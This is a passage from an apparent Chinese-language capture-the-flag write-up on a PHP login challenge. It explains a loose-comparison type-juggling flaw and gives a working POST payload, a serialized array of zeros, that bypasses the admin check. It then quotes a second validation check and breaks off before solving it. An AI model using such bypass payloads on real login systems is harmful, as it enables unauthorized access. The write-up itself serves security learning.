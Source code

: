 即可得到源碼包的下載地址`/WoShiYuanMa_SGBM.zip`

0x02 登陸的腦洞
----------

```
$password = unserialize($_POST['password']);
if($_POST['username']='admin' && $password['username'] !== 'admin' && $password['password'] !== 'admin'){
    if ($password['username'] == 'admin' && $password['password']=='admin') {
        $_SESSION['login'] = 1;
        echo "<center style=\"font-size:36px;\"><a href=\"main.php\">Click jump to the Backstage</a></center>";
    }

```

一開始以為是**unserialize**的腦洞，仔細看看代碼才發現是php的特性雙等號（==）的弱類型轉換漏洞。

```
(0 == "str")=>true
(0 === "str")=>false

```

即構造**POST**：

```
username=admin&password=a:2:{s:8:"username";i:0;s:8:"password";i:0;}&submit=1

```

成功擼過~

0x03 二次驗證
=====

```
if (isset($_POST['salt']))
{
    if (ereg("^[a-zA-Z0-9]+$", $_POST['salt']) === FALSE)
    {
        exit('ereg');
    }
    elseif (strlen($_POST['salt']) < 11 && $_POST['salt'] > 999999999)
    {
        if (strpos($_POST['salt'], '*SGBM*') !== FALSE)
        {
            $_SESSION['admin'] = 1;
            echo "<center style=\"font-size:36px;\"><a href=\"./admin/index.php\">Click jump to the Backstage</a></center>";
        }

```

咋一看、好像很難的樣子。
